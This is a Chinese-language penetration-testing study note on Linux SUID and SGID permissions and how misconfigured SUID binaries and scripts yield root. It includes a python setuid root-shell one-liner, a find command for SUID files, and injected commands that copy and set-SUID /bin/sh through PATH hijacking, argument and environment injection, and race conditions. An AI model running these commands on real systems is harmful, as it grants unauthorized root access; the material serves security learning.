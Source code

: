 ```yaml
---
title: Linux SUID & SGID
date: 2021-07-21 17:32:07
tags:
- 提权
- linux
categories:
- 渗透
- 知识点
---
```


## 基础知识

SUID 就是 Set User id， SGID 就是 Set Group id


### SUID

```bash
nathan@cap:~# ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root 68208 May 28  2020 /usr/bin/passwd
```

可以看到`s`这个标签在原本的`x`标签上，特点如下：

1. SUID权限仅对可执行文件有效
2. 如果执行者对这个文件有执行权限，那么将以文件的所有者权限执行
3. 本权限仅在运行的过程中有效

那么现在再看下passwd的执行过程。因为nathan拥有可执行权限，而passwd在所有者的权限是`wrs`，所以当nathan用户运行的时候是以root的权限执行的，进行修改了`/etc/shadow`。

修改成SUID的命令为
```bash
chmod 4755 /usr/bin/cat
chmod u+s /usr/bin/cat
```

### SGID

对于可执行文件特点与SUID一样，只不过是以组的权限运行的。

对于文件夹来说，如果这个文件夹的所有组被标记了`s`，特点如下：

1. 对这个文件夹拥有`r`和`x`的用户，可以进入文件夹
2. 进入文件夹后，用户的操作为文件夹用户组的操作权限
3. 如果用户拥有`w`的权限，那么用户创建文件的用户组就是这个文件夹组的用户组

```bash
chmod 2755 file_dir
chmod g+s file_dir
```

### rwS

有的文件是`S`为标记，说明没有执行权限。因为与`x`重合了所有做了区分

## 利用

suid 的利用方式常常是因为配置的可执行文件能够得到`shell`或者可以访问敏感信息。

例如，如果`cat`有了suid的权限，那么就可以访问`cat /etc/shadow`。

或者`python`有了suid，那么就可以以root权限执行`/bin/bash`从而得到root的shell

```bash
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### 查找方法

```bash
find / -perm -4000 2>/dev/null  # 查看所有suid的二进制文件
find / -perm -2000 2>/dev/null  # 查看所有sgid的二进制文件和文件夹
```

### 7种利用方法

方法参考了[这篇文章](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

#### 用的是csh?

```bash
% ls change-pass
-rwsr-x--- 1 root helpdesk
 37 Feb 26 16:35 change-pass
% cat change-pass
#!/bin/csh -b
set user = $1
passwd $user
```

```bash
% env TERM='`cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh`' change-pass
```

#### 引用的文件没有使用绝对路径？

```sh
% cat change-pass
#!/bin/ksh
user=$1
passwd $user
```

```bash
% export PATH='/tmp'
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd
% ./change-pass
```

#### 脚本的适用范围是否过大？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
/usr/bin/passwd $user
```

可以修改root的密码

#### 使用了临时文件？

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0 ] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

看到上面使用了临时文件，那么就意味着可以打时间差，通过疯狂循，用空覆盖掉写入的内容。
那么就跳过了检查是否为空，就可以修改root密码了。

#### 参数是否过滤，能否用分号做更多的事

```sh
% cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && echo "You can't change root's password!" && exit
/usr/bin/passwd $user
```

可以看到值判断是否有`$user`和`$user`是否为root。

```bash
change-pass "user;cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh"
```

#### 是否设置了IFS

**IFS(Internal Field Separator)**, 内部域分割符，set环境变量。

案例中给出了使用方法

```base
export IFS='/'
```

这样`/usr/bin/passwd` 就变成了 `usr bin passwd`，然后替换`usr`的执行就可以了，但是没有实验成功。

#### 脚本本身的风险

脚本要运行会有两个步骤：
1. 启动一个shell
2. 这个shell读取脚本的内容然后执行

那么就会有一个时间差

```bash
cd /tmp
ln -s change-pass rootme
```

```bash
$ ./rootme &
$ rm rootme && \
 echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
 >> rootme
```

这个会有很大的几率读取不到完整的内容而失败，但是可以用自动化的方式实现。



